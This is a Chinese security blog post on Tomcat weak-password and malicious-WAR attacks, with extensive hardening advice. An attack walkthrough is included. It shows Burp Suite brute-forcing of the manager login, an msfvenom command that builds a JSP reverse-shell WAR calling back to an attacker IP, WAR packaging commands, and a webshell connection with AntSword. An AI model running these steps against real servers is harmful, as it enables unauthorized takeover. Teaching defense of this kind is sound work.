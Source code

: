#  Tomcat弱口令+War包漏洞防护   
原创 小话安全  小话安全   2025-03-03 09:38  
  
Tomcat弱口令和WAR包漏洞是常见的Apache Tomcat服务器安全问题，可能导致未授权访问或远程代码执行。以下是详细分析和防御建议：  
  
一、Tomcat弱口令漏洞  
  
漏洞原理  
  
- Tomcat默认提供管理界面（如`/manager/html`和`host-manager`），若管理员未修改默认密码或使用简单密码（如`tomcat:tomcat`、`admin:admin`），攻击者可暴力破解登录管理后台。  
  
攻击流程  
  
1. 扫描发现Tomcat管理界面（默认端口8080）。  
  
2. 使用弱口令尝试登录`/manager/html`。  
  
3. 上传恶意WAR包并部署，获取服务器控制权。  
  
 防御措施  
  
1. 修改默认密码  
  
   编辑`tomcat-users.xml`，设置复杂密码并仅授权必要角色：  
  
<user username="admin" password="StrongPassword@123" roles="manager-gui,admin-gui"/>  
  
   - 避免使用`manager-script`等高权限角色。  
  
2. 限制管理界面访问  
  
   - 通过`server.xml`限制访问IP：  
  
<Valve className= "org.apache.catalina.valves.RemoteAddrValve"  allow="192.168.1.0/24"/>  
  
   - 或禁用管理界面（删除`webapps`目录下的`manager`和`host-manager`）。  
  
3. 启用账户锁定机制   
  
   配置`FailedLoginAttempts`防止暴力破解。  
  
二、WAR包漏洞  
  
漏洞原理  
  
- 攻击者通过管理界面上传恶意WAR文件（如包含JSP木马或反弹Shell代码），Tomcat会自动解压并部署为Web应用。  
  
- WAR包中的恶意代码可执行任意系统命令，导致服务器沦陷。  
  
攻击流程  
  
1. 生成恶意WAR包：  
  
     
msfvenom -p java/jsp_shell_reverse_tcp LHOST=攻击者IP LPORT=4444 -f war > shell.war  
  
2. 通过管理界面上传并部署`shell.war`。  
  
3. 访问`http://目标IP:8080/shell/`触发恶意代码，获取反向Shell。  
  
防御措施  
  
以下是Tomcat安全加固的总结，涵盖关键配置、权限管理、漏洞防护和监控措施，帮助提升Tomcat服务器的安全性：  
  
一、基础安全加固  
  
1. 版本升级   
  
   - 使用Tomcat 最新稳定版本（如Tomcat 10.x/9.x），修复已知漏洞（如CVE-2020-1938 Ghostcat文件读取漏洞）。  
  
   - 定期检查Apache官方安全公告：[Tomcat Security Advisories](https://tomcat.apache.org/security.html)  
  
2. 最小化安装    
  
   - 删除默认示例和文档：    
  
       rm -rf /tomcat/webapps/docs /examples /host-manager /manager  
  
   - 关闭未使用的协议（如AJP协议）：    
  
   
  编辑`server.xml`，注释或删除`<Connector port="8009" protocol="AJP/1.3" ... />`。  
  
3. 禁用自动部署    
  
   防止攻击者通过文件系统直接部署恶意应用：    
  
<Host name="localhost" appBase="webapps" unpackWARs="true" autoDeploy="false">  
  
二、权限与认证加固  
  
1. 修改默认密码    
  
   - 编辑`tomcat-users.xml`，设置复杂密码并限制角色权限：    
  
     <user username="admin" password="Zxcv@2023!%$" roles="manager-gui,admin-gui" />  
  
   - 禁用高权限角色（如`manager-script`、`manager-jmx`）。  
  
2. 限制管理界面访问    
  
   - 仅允许特定IP访问管理后台（`/manager/html`和`/host-manager`）：    
  
      <!-- 在server.xml的对应<Context>中添加 -->  
  
<Valve className="org.apache.catalina.valves.RemoteAddrValve" allow="192.168.1.0/24" />  
  
   - 或直接删除管理界面（移除`webapps/manager`和`webapps/host-manager`目录）。  
  
3. 启用账户锁定机制  
  
   配置登录失败次数限制（需结合`FailedLoginAttempts`模块或使用第三方安全组件）。  
  
三、文件与目录权限  
  
1. 限制Tomcat运行权限   
  
   - 创建专用低权限用户运行Tomcat：    
  
     useradd -M -s /sbin/nologin tomcat_user  
  
     chown -R tomcat_user:tomcat_user /opt/tomcat  
  
   - 禁止Tomcat用户拥有`sudo`权限或写入系统关键目录的权限。  
  
2. 配置文件权限  
  
   - 设置敏感文件为只读（如`conf/*.xml`、`bin/*.sh`）：    
  
        chmod 640 /opt/tomcat/conf/server.xml  
  
3. 日志文件保护   
  
   - 确保日志目录（`logs/`）不可被Web访问，定期归档并监控异常日志（如暴力破解、部署行为）。  
  
攻击实战  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/0LTz7Lex94UrAVl0gfBNDhia54jQicnpxdgGiav2Ta7I0cibFwJsofp9NibDFXk9KAhapVYya4wO8Sat5TFUKoaAhKg/640?wx_fmt=png&from=appmsg "")  
  
使用burpsuit进行爆破  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/0LTz7Lex94UrAVl0gfBNDhia54jQicnpxdmiaGTLiaUTkic3HLPhl312YxST6QCJUD50CXWEIr5bJtfrSQiavta2MxVQ/640?wx_fmt=png&from=appmsg "")  
  
设置 Payload type 为 Custom iterator,在 Position 1 的位置添加用户名:  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/0LTz7Lex94UrAVl0gfBNDhia54jQicnpxdxnOLD0bs0p11mCpnT0ic8Suo3iccIkr9N08OR8YhJtHtoicqXRqZ2cSOA/640?wx_fmt=png&from=appmsg "")  
  
在 Position 2 的位置添加“：”  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/0LTz7Lex94UrAVl0gfBNDhia54jQicnpxdVAsF631j4jTtu5tMmXPz8VgG4lutPRiaR2ZTBf01KyQ5dsg46MyhqyA/640?wx_fmt=png&from=appmsg "")  
  
在 Position 3 的位置添加密码  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/0LTz7Lex94UrAVl0gfBNDhia54jQicnpxdHsmWvnqDf7Ks0EBmegRFhkbZiaPWFXnrT3nkSLflhgLSB9ibtdzkMx2A/640?wx_fmt=png&from=appmsg "")  
  
在 Payload Processing 处设置为 Base64 编码,并且取消勾选 Url Encoding  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/0LTz7Lex94UrAVl0gfBNDhia54jQicnpxdjfZiapRzfARLK2Lu9NY3ePfyoBXkicaJvRRWjzHLJgWXfeh959WicYyXw/640?wx_fmt=png&from=appmsg "")  
  
爆破成功  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/0LTz7Lex94UrAVl0gfBNDhia54jQicnpxdTpHhVlUhwJ6tBloLctsDJic1c7E9pib8hWj7yghJBl7P7QgdyvpianMeQ/640?wx_fmt=png&from=appmsg "")  
  
成功登录后，攻击者可直接上传恶意WAR包，接管服务器。  
  
将 shell.jsp 马打包成 war 包  
  
```
jar -cvf shell.war shell.jsp
```  
  
  
或者使用 zip 压缩成 war 包  
```
zip shell.war shell.jsp
```  
  
进入登录界面,部署上传  
  
![图片](https://mmbiz.qpic.cn/sz_mmbiz_jpg/0LTz7Lex94UrAVl0gfBNDhia54jQicnpxd2HianMd2TWqKWBf9V149POHe25MbOUblgg9tOsxITCEZicg2hsrZUtyQ/640?wx_fmt=jpeg "")  
  
4.中国蚁剑连接  
  
连接位置为 http://yourip:port/Login/shell.jsp  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/0LTz7Lex94UrAVl0gfBNDhia54jQicnpxdaRHN9cJfjcibqbvOoRtQqOM2x5QEhM2apOXj2zV9fefxiaLVOHyxqTDA/640?wx_fmt=png&from=appmsg "")  
  
  
  
